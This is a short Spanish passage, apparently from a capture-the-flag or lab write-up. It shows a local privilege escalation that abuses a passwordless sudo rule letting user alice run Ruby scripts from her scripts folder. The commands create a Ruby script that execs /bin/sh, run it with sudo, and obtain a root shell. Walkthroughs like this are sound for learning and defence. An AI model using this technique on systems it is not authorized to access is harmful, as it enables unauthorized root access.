 El usuario alice puede ejecutar cualquier archivo Ruby ubicado en el directorio /home/alice/scripts/ con privilegios de superusuario y sin necesidad de proporcionar contraseña.

Aprovechando estos permisos, se creo un script en Ruby para invocar una shell con privilegios de root.

```terminal
alice@kali:~$ echo -e '#!/usr/bin/env ruby\n\nexec "/bin/sh"' > scripts/shell.rb
alice@kali:~$ chmod +x scripts/shell.rb
alice@kali:~$ sudo /home/alice/scripts/shell.rb
# id
uid=0(root) gid=0(root) groups=0(root)
```